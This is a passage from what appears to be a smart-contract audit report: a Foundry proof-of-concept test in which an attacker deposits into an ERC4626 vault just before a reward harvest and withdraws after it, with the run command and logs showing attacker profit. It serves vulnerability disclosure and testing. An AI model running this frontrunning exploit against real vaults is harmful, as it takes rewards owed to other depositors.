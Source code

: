 ```solidity

        uint256 simulatedHarvestAmount = 1 ether;
        simulateHarvest(simulatedHarvestAmount);

        VaultData memory postState = _getVaultData();
        require(postState.totalShares > 0, "No shares after harvest");
        uint256 postSharePrice = postState.totalAssets * 1e18 / postState.totalShares;
        console.log("Post-harvest share price:", postSharePrice);

        assertGt(postSharePrice, preSharePrice, "Share price did not increase after harvest");

        vm.prank(attacker);
        uint256 withdrawnAssets = IERC4626(vault).withdraw(attackerDeposit, attacker, attacker);

        uint256 profit = withdrawnAssets > attackerDeposit ? withdrawnAssets - attackerDeposit : 0;
        console.log("Attacker profit from exploit:", profit);

        assertGt(profit, 0, "Attacker did not profit from frontrunning the harvest");
}
```

Also add this line in the `VaultUnitTest.t.sol` file in the `initializeVault()` so we can use farmPlugin here:

```solidity
farmPlugin = _farmPlugin;
```

Then run with:

```
forge test --match-test testRewardExploit -vvv
```

**Result:**

```
Logs:
  Total shares: 1000000000000000000000000
  Total assets: 11000000000000000000
  Pre-harvest share price: 11000000000000
  Attacker shares after deposit: 181818181818181818183471
  Post-harvest share price: 11846153846153
  Attacker profit from exploit: 168829168831168831171294
```
